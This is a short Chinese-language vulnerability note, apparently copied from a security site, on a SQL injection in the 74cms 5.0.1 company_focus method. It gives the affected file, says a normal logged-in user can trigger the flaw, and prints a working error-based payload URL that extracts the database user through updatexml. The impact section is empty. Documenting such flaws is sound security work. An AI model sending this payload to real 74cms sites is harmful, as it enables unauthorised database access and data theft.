

# 74cms v5.0.1 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/74cms/2.html](http://book.iwonder.run/0day/74cms/2.html)

## 一、漏洞简介

74cms 5.0.1 前台 AjaxPersonalController.class.php 存在 SQL 注入

## 二、漏洞影响

## 三、复现过程

### 具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

```
http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a 
```



### 源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id 参数是不经过 I 函数过滤的，所以只要 where 可以控制，那就可以注入


跟踪 add_focus(),发现 SQL 语句参数外部都可以控制，导致了注入漏洞


## 四、参考链接

> [https://www.t00ls.net/thread-54436-1-1.html](https://www.t00ls.net/thread-54436-1-1.html)

